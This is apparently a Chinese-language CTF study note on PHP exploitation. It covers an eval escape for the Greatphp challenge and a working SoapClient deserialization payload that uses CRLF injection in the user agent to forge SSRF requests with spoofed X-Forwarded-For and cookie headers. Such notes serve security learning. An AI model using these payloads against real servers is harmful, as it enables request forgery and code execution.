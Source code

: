 ![image-20220807151831343](../images/image-20220807151831343.png)

> 值不相同（对象，异常代码不同）,md5和sha1的值相同（输出的是一样的）

### [极客大挑战 2020]Greatphp

```php
if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) )
    
eval($this->syc);
```

多了一个eval

只需要将payload构造为`?><? payload?>`的形式即可,前面的`?>`把文件原来的`<?php`闭合了。

```php
<?php eval( ?>    <?php payload ?>        )    ?>
```



## SoapClient类

> 内置call方法，当call方法被调用时，就会发起http请求，可以伪造ssrf请求
>
> 并因为可以自定义user_agent请求头从而造成crlf漏洞。

可能会出现的问题[Fatal error: Uncaught Error: Class 'SoapClient' not found in](https://stackoverflow.com/questions/11391442/fatal-error-class-soapclient-not-found)

> CRLF注入是一类注入漏洞。是“回车+换行”的简称，又叫做回车换行符。
> 表示为`\r\n`，编码之后是`%0d%0a`。这个在HTTP协议中表示消息头与消息体之间的分隔。
>
> 浏览器就是根据这两个CRLF来分离HTTPHeader与HTTPBody的。从而把HTTP内容显示出来。所以，如果我们能够控制HTTP消息头的字符，那么我们就能够注入一些恶意的换行。

例子SoapClient::call方法发送soap请求,伪造post数据

在linux下执行

```php
<?php
$target = "http://192.168.244.128:8888/";
$post_string = 'data=abc';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93'
);
$b = new SoapClient(null,
array('location' => $target,
	  'user_agent'=>'khaz^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_string).'^^^^'.$post_string,
        'uri'=>'hello'));
$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
echo urlencode($aaa);

//Test
$c = unserialize($aaa);
$c->notexists();

?>
```
